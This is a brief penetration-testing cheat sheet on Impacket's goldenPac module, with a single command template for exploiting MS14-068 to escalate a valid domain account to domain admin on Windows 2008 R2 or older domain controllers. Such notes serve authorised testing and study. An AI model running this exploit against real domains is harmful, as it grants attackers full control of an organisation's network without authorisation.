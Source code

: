 # impacket-goldenPac

## Use this impacket module to escalate privileges to domain admin via a valid domain account username and password abusing the MS14-068 exploit.

### Command:

#### 1) 

    impacket-goldenPac DOMAIN.LOCAL/USERNAME@FQDN.LOCAL then enter password for user.

## THIS TECHNIQUE CAN ONLY BE USED AGAINST DOMAIN CONTROLLERS RUNNING WINDOWS 2008 (R2) OR EARLIER!!!
